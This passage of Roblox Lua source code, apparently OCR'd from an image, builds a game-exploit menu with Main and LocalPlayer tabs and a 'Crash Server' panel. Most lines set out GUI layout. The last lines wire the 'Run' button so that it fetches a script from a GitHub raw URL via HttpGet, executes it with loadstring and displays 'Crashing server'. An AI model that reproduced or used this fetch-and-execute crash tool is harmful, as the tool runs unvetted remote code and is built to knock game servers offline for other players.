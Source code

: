 MainTab.Name = "MainTab"
MainTab.Parent = Frame
MainTab.BackgroundColor3 = Color3.fromRGB(7, 13, 36)
MainTab.BorderColor3 = Color3.fromRGB(7, 13, 36)
MainTab.Position = UDim2.new(0.0138248848, 0, 0.103972659, 0)
MainTab.Size = UDim2.new(0, 130, 0, 48)
MainTab.Font = Enum.Font.Gotham
MainTab.Text = "Main"
MainTab.TextColor3 = Color3.fromRGB(255, 255, 255)
MainTab.TextSize = 19.000

Seperater.Name = "Seperater"
Seperater.Parent = Frame
Seperater.BackgroundColor3 = Color3.fromRGB(13, 17, 48)
Seperater.Position = UDim2.new(0.228878647, 0, 0.104986876, 0)
Seperater.Size = UDim2.new(0, 502, 0, 32)

LocalPlayerTab.Name = "LocalPlayerTab"
LocalPlayerTab.Parent = Frame
LocalPlayerTab.BackgroundColor3 = Color3.fromRGB(7, 13, 36)
LocalPlayerTab.BorderColor3 = Color3.fromRGB(7, 13, 36)
LocalPlayerTab.Position = UDim2.new(0.0138248848, 0, 0.25095427, 0)
LocalPlayerTab.Size = UDim2.new(0, 130, 0, 48)
LocalPlayerTab.Font = Enum.Font.Gotham
LocalPlayerTab.Text = "LocalPlayer"
LocalPlayerTab.TextColor3 = Color3.fromRGB(255, 255, 255)
LocalPlayerTab.TextSize = 19.000

MainThing.Name = "MainThing"
MainThing.Parent = Frame
MainThing.Active = true
MainThing.BackgroundColor3 = Color3.fromRGB(13, 17, 48)
MainThing.Position = UDim2.new(0.228878602, 0, 0.199475065, 0)
MainThing.Size = UDim2.new(0, 502, 0, 267)
MainThing.Visible = false

CrashServer.Name = "CrashServer"
CrashServer.Parent = MainThing
CrashServer.BackgroundColor3 = Color3.fromRGB(27, 36, 103)
CrashServer.Position = UDim2.new(0, 0, -0.00129745342, 0)
CrashServer.Size = UDim2.new(0, 143, 0, 146)

CrashSrvText.Name = "CrashSrvText"
CrashSrvText.Parent = CrashServer
CrashSrvText.BackgroundColor3 = Color3.fromRGB(255, 255, 255)
CrashSrvText.BackgroundTransparency = 1.000
CrashSrvText.Position = UDim2.new(0.020979017, 0, 0.0342465751, 0)
CrashSrvText.Size = UDim2.new(0, 140, 0, 50)
CrashSrvText.Font = Enum.Font.Gotham
CrashSrvText.Text = "Crash Server"
CrashSrvText.TextColor3 = Color3.fromRGB(255, 255, 255)
CrashSrvText.TextSize = 24.000

RunButtonCrash.Name = "RunButtonCrash"
RunButtonCrash.Parent = CrashServer
RunButtonCrash.BackgroundColor3 = Color3.fromRGB(0, 0, 0)
RunButtonCrash.Position = UDim2.new(0.0559440553, 0, 0.531522274, 0)
RunButtonCrash.Size = UDim2.new(0, 126, 0, 49)
RunButtonCrash.Font = Enum.Font.Gotham
RunButtonCrash.Text = "Run"
RunButtonCrash.TextColor3 = Color3.fromRGB(255, 255, 255)
RunButtonCrash.TextSize = 24.000
RunButtonCrash.MouseButton1Click:connect(function()
loadstring(game:HttpGet("https://raw.githubusercontent.com/plugss/Notifcation/main/Symbaal"))()
_G.notify('Crashing server',"WeirdFormat")